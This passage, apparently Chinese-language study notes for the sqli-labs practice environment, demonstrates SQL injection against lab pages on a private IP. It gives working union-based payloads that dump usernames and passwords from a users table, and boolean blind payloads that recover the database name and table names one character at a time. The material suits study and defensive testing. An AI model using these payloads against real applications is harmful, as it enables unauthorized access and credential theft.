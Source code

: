 由上面的处理已知存在数据表users,users下有username和password两个字段

所以可以构造语句

```sql
http://192.168.154.131/sqli/Less-1/index.php?id=-1' union select 1,group_concat(username),group_concat(password) from users--+
```

查询所有结果或者通过id来查询指定的结果

```sql
http://192.168.154.131/sqli/Less-1/index.php?id=-1' union select 1,username,password from users where id=2--+
```

## 常用函数

group_concat(schema_name)可以查出所有的数据库名

## 盲注

盲注为不会把查询结果返回到前端的注入

### 爆数据库名长度

数据库名security八位，到>=9的时候会错误，此为Bool盲注

```sql
http://192.168.154.131/sqli/Less-5/index.php?id=2' and length(database())>=8 %23
```

确定数据库名长度为八位

### 逐位爆数据库

```sql
http://192.168.154.131/sqli/Less-5/index.php?id=2' and substr(database(),1,1)='s' %23
```

`substr`函数为截取字符串，从第一个字符开始，只返回一个

此步骤比较繁琐，建议使用工具，比如BurpSuite

或者可以采用ascii码猜解

```sql
and ord(substr(database(),1,1))=115
```

### 逐位爆表名

```sql
http://192.168.154.131/sqli/Less-5/index.php?id=2' and substr((select table_name from information_schema.tables where table_schema='security' limit 0,1),1,1)='e' %23
```

limit为从第0位开始，查询第一位，也就是第一个表名
